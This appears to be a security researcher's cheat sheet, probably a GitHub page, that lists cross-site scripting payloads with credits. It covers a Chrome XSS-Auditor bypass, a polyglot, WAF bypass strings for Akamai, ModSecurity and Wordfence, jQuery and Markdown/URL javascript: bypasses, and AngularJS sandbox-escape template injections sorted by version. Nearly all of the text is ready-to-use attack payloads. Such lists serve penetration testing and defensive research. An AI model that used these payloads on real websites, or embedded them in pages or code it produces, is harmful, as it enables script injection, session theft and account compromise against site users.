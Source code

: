 ## XSS

**Chrome XSS-Auditor Bypass** by [Masato Kinugawa](https://github.com/masatokinugawa)

```html
<svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>
```

**XSS Polyglot** by [Ahmed Elsobky](https://github.com/0xSobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

**Kona WAF (Akamai) Bypass**

```html
\');confirm(1);//
```

**ModSecurity WAF Bypass**
Note: This kind of depends on what security level the application is set to. See: https://modsecurity.org/rules.html
```html
<img src=x onerror=prompt(document.domain) onerror=prompt(document.domain) onerror=prompt(document.domain)>
```

**Wordfence XSS Bypasses**

```html
<meter onmouseover="alert(1)"
```

```html
'">><div><meter onmouseover="alert(1)"</div>"
```

```html
>><marquee loop=1 width=0 onfinish=alert(1)>
```

**jQuery < 3.0.0 XSS**
 by [Egor Homakov](https://github.com/jquery/jquery/issues/2432)

```js
$.get('http://sakurity.com/jqueryxss')
```

In order to really exploit this jQuery XSS you will need to fulfil one of the following requirements:

1) Find any cross domain requests to untrusted domains which may inadvertently execute script.
2) Find any requests to trusted API endpoints where script can be injected into data sources.

**URL verification bypasses (works without `&#x09;` too)**

```
javas&#x09;cript://www.google.com/%0Aalert(1)
```

**Markdown XSS**

```md
[a](javascript://www.google.com%0Aprompt(1))
```

## AngularJS Template Injection based XSS

**1.0.1 - 1.1.5** by [Mario Heiderich (Cure53)](https://twitter.com/0x6D6172696F)
```
{{constructor.constructor('alert(1)')()}}
```
**1.2.0 - 1.2.1** by [Jan Horn (Google)](https://twitter.com/tehjh)
```
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```
**1.2.2 - 1.2.5** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)
```
{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
```
**1.2.6 - 1.2.18** by [Jan Horn (Google)](https://twitter.com/tehjh)
```
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
```
**1.2.19 - 1.2.23** by [Mathias Karlsson](https://twitter.com/avlidienbrunn)
```
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
```
**1.2.24 - 1.2.29** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)
```
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```
**1.3.0** by [Gábor Molnár (Google)](https://twitter.com/molnar_g)
```
{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
    );}}
```
**1.3.1 - 1.3.2** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)
```
{{
    {}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
    'a'.constructor.prototype.charAt=''.valueOf; 
    $eval('x=alert(1)//'); 
}}
```
**1.3.3 - 1.3.18** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)
```
{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join; 

  'a'.constructor.prototype.charAt=[].join;
  $eval('x=alert(1)//');  }}
```
**1.3.19** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)
```
{{
    'a'[{toString:false,valueOf:[].join,length:1,0:'__proto__'}].charAt=[].join; 
    $eval('x=alert(1)//'); 
}}
```
**1.3.20** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)
```
{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}
```
**1.4.0 - 1.4.9** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)
```
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
```
**1.5.0 - 1.5.8** by [Ian Hickey](https://twitter.com/ianhickey1024)
```
{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}
```
**1.5.9 - 1.5.11** by [Jan Horn (Google)](https://twitter.com/tehjh)
```
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```
**1.6.0+** (no Sandbox) by [Mario Heiderich (Cure53)](https://twitter.com/0x6D6172696F)
```
{{constructor.constructor('alert(1)')()}}
```
